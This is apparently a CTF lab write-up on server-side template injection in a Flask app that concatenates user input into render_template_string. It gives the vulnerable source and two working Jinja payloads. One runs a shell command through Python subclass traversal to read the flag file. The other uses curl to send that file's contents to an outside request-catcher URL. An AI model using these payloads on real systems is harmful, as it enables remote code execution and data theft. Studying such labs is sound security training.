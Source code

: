 ```yaml
---
title: Simple Web 0x15(Lab - `Jinja`)
tags: [NTUSTWS, CTF, Web]

---
```


# Simple Web 0x15(Lab - `Jinja`)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8700/

## Background
[Web Security 0x1](https://youtu.be/_hasOTGximc?t=5863)

## Source code
:::spoiler code
```python=
from flask import Flask, render_template_string, request, send_file

app = Flask(__name__)


@app.get("/")
def home():
    return render_template_string("""
    <form method="POST">
        <input type="text" name="name" placeholder="Your name">
        <button>submit</button>
    </form>
    <p><a href="/source">Source code</a></p>
    """)


@app.post("/")
def welcome_message():
    name = request.form.get('name')
    return render_template_string("<p>Hello, " + name + "</p>")


@app.get("/source")
def source():
    return send_file(__file__, mimetype="text/plain")


if __name__ == '__main__':
    app.run(threaded=True, debug=True)
```
:::

## Exploit
### Easy way
{% raw %}
payload: `{{[].__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']("cat /th1s_15_fl4ggggggg").read()}}`
{% endraw %}
![](https://i.imgur.com/dRLbk0J.png)

### Need Tool way - [Beeceptor](https://beeceptor.com/)
`Beeceptor` will catch our result from `curl`. 
<font color="FF0000">It'll execute `cat /th1s_15_fl4ggggggg` first and the result will be sent to `Beeceptor` as attached data by `curl`.</font>
Payload: 
{% raw %}
```!
{{[].__class__.__base__.__subclasses__()[132].__init__.__globals__['system']('curl {Beeceptor URL} -d "`cat /th1s_15_fl4ggggggg`"')}}
```
{% endraw %}
![](https://i.imgur.com/PQ39MMI.png)

Flag: `FLAG{ssti.__class__.__pwn__}`
